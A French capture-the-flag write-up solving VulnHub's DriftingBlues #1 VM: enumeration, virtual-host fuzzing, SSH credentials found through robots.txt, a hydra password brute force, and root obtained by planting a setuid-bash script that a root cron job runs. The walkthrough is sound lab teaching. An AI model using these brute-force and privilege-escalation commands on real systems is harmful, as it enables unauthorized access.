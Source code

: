 # Solution du CTF DriftingBlues #1 de VulnHub

First of the name
-----------------

[DriftingBlues](https://www.vulnhub.com/entry/driftingblues-1,625/), ici le premier d'une grande lignée de VMs intentionnellement vulnérables dans l'unique but de s'amuser et apprendre, a été conçu par [tasiyanci](https://twitter.com/tasiyanci).  

```plain
Not shown: 65533 closed tcp ports (reset) 
PORT   STATE SERVICE VERSION 
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0) 
| ssh-hostkey:  
|   2048 ca:e6:d1:1f:27:f2:62:98:ef:bf:e4:38:b5:f1:67:77 (RSA) 
|   256 a8:58:99:99:f6:81:c4:c2:b4:da:44:da:9b:f3:b8:9b (ECDSA) 
|_  256 39:5b:55:2a:79:ed:c3:bf:f5:16:fd:bd:61:29:2a:b7 (ED25519) 
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu)) 
|_http-title: Drifting Blues Tech 
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

Sur le site web on peut trouver différents noms et adresses emails : *Charles Brown*, *sheryl@driftingblues.box*, *eric@driftingblues.box*.  

On trouve aussi dans la page le commentaire HTML encodé en base64 :  

```html
<!-- L25vdGVmb3JraW5nZmlzaC50eHQ= -->
```

Ce qui se décode en : */noteforkingfish.txt*  

Okaaaaaaaayyyyyyyy
------------------

Le path cité nous amène sur une page remplie de *Ook!*, *Ook?* et autres *Ook.* Connaissant déjà quelques langages de programmation ésotériques j'ai tout de suite saisi la référence mais une recherche google aurait sans doute amené les plus dubitatifs sur une explication.  

Le site *dcode.fr* dispose [d'un interpréteur](https://www.dcode.fr/langage-ook) et l'exécution du script produit l'affichage suivant :  

> my man, i know you are new but you should know how to use host file to reach our secret location. -eric

Voyons un peu les virtual hosts qui retournent une réponse différente de celle par défaut (à savoir ici une taille différente de 7710 octets) :  

```plain
$ ffuf -w /fuzzdb/discovery/dns/alexaTop1mAXFRcommonSubdomains.txt -u http://192.168.56.6/ -H "Host: FUZZ.driftingblues.box" -fs 7710 

        /'___\  /'___\           /'___\        
       /\ \__/ /\ \__/  __  __  /\ \__/        
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\       
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/       
         \ \_\   \ \_\  \ \____/  \ \_\        
          \/_/    \/_/   \/___/    \/_/        

       v1.3.1 
________________________________________________ 

 :: Method           : GET 
 :: URL              : http://192.168.56.6/ 
 :: Wordlist         : FUZZ: /fuzzdb/discovery/dns/alexaTop1mAXFRcommonSubdomains.txt 
 :: Header           : Host: FUZZ.driftingblues.box 
 :: Follow redirects : false 
 :: Calibration      : false 
 :: Timeout          : 10 
 :: Threads          : 40 
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405 
 :: Filter           : Response size: 7710 
________________________________________________ 

test                    [Status: 200, Size: 24, Words: 1, Lines: 6] 
:: Progress: [50000/50000] :: Job [1/1] :: 2862 req/sec :: Duration: [0:00:42] :: Errors: 0 ::
```

Une fois sur le site on obtient juste le message *work in progress -eric*.  

Après beaucoup d'énumération je trouve sur ce vhost un fichier... *robots.txt*. Comme quoi un simple appel à Nuclei m'aurait fait gagné du temps, à se rappeller lors de la prochaine découverte de vhost.  

Le plus intéressant est une URL interdite qui mentionne un accès SSH :  

```plain
User-agent: *
Disallow: /ssh_cred.txt
Allow: /never
Allow: /never/gonna
Allow: /never/gonna/give
Allow: /never/gonna/give/up
```

Le message :  

```plain
we can use ssh password in case of emergency. it was "1mw4ckyyucky".

sheryl once told me that she added a number to the end of the password.

-db
```

C'est toujours un plaisir de résoudre un problème avec une ligne de Python :  

```plain
$ python3 -c "[print(f'1mw4ckyyucky{i}') for i in range(10)]" > pass.txt
$ hydra -L users.txt -P pass.txt ssh://192.168.56.6
--- snip ---
[22][ssh] host: 192.168.56.6   login: eric   password: 1mw4ckyyucky6
```

Let's root
----------

Ce compte dispose du premier flag mais n'a aucune règle sudo associée. L'outil d'énumération de failles et de mauvaises configurations locales LinPEAS ne retourne rien qui vaille...  

En revanche on peut monitorer les process avec [pspy](https://github.com/DominicBreuker/pspy) et là on a quelque chose de plus intéressant :  

```plain
2022/01/19 01:25:01 CMD: UID=0    PID=20942  | /usr/bin/zip -r -0 /tmp/backup.zip /var/www/  
2022/01/19 01:25:01 CMD: UID=0    PID=20941  | /bin/sh /var/backups/backup.sh  
2022/01/19 01:25:01 CMD: UID=0    PID=20940  | /bin/sh -c /bin/sh /var/backups/backup.sh  
2022/01/19 01:25:01 CMD: UID=0    PID=20939  | /usr/sbin/CRON -f  
2022/01/19 01:25:01 CMD: UID=0    PID=20944  | sudo /tmp/emergency
```

Le dernier script mentionné est manquant :  

```plain
eric@driftingblues:~$ file /tmp/emergency 
/tmp/emergency: cannot open `/tmp/emergency' (No such file or directory)
```

Et comme il est dans */tmp* on peut le créer pour y placer par exemple le contenu suivant :  

```bash
#!/bin/bash 
cp /bin/bash /tmp/g0tr00t 
chmod 4755 /tmp/g0tr00t
```

On attend que la tâche CRON s'exécute et on a notre shell :  

```plain
eric@driftingblues:/tmp$ ./g0tr00t -p 
g0tr00t-4.3# id 
uid=1001(eric) gid=1001(eric) euid=0(root) groups=1001(eric) 
g0tr00t-4.3# cd /root 
g0tr00t-4.3# ls 
root.txt 
g0tr00t-4.3# cat root.txt  
flag 2/2 
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄ 
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄ 
░░░░█░░░░░░░░░░░░░░░░░░░░░░█ 
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█ 
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█ 
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█ 
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█ 
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█ 
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█ 
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█ 
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█ 
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█ 
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█ 
░░▐▌░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█ 
░░░█▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█ 
░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀ 
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄ 
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█ 
░░█░░▌░█░░█░░█░░░█░░█░░█ 
░░█░░▀▀░░██░░█░░░█░░█░░█ 
░░░▀▀▄▄▀▀░█░░░▀▄▀▀▀▀█░░█ 

congratulations! 
thank you for playing
```

Un CTF du type jeu de pistes mais suffisamment logique pour être agréable.

*Published January 19 2022 at 20:10*